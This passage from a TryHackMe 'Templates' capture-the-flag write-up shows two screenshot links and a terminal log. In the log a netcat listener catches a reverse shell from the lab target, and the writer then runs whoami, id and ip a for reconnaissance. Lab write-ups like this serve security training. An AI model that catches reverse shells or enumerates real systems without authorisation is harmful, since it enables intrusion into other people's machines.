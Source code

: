 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Templates/images/Pasted%20image%2020221103055833.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Templates/images/Pasted%20image%2020221103055900.png)

Now, we should have a shell on the target machine!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nc -lnvp 443       
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.15.9] 49048
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user@774c7a0d6226:/usr/src/app$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
user
774c7a0d6226
uid=1001(user) gid=1001(user) groups=1001(user)
[...]
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
